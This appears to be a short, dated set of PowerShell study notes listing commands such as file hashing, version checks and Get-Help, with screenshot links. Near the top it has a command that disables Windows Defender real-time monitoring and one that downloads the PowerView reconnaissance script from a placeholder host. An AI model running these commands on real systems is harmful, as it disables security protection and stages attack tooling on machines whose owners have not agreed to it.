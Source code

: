 ### 25-Jan-24-Thu

```
Set-MpPreference -DisableRealtimeMonitoring $true
```

```
Invoke-WebRequest http://<ip>:<port>/PowerView.ps1 -OutFile PowerView.ps1
```

```
Get-FileHash somefile.ext
```

```
Get-FileHash somfile.ext -Algorithm MD5
```

```
$psversiontable
```

![image](https://github.com/user-attachments/assets/20e96730-c065-4775-b430-3bc1c80f5979)

```
Get-Help Get-Help
```

![image](https://github.com/user-attachments/assets/7aabfd9f-168e-434d-80d5-d9ee4937fbb3)

```
Get-Help -Name Get-Command -Detailed
```

![image](https://github.com/user-attachments/assets/bba5f21b-42d0-42c2-8ae9-da9146982a39)

```
alias
```

![image](https://github.com/user-attachments/assets/64d4d22c-35ec-4ace-bae2-46925963d014)
